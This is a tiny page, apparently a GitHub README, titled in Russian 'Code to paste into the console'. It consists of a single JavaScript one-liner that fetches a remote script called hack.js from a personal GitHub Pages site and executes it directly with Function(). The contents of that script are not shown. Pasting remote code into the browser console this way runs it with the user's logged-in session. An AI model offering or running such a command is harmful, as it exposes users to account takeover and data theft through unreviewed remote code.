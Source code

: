 ## Код для вставки в консоль

```
fetch('https://vladislav959.github.io/hack/hack.js').then(res => res.text()).then(res => (Function(res))())
```

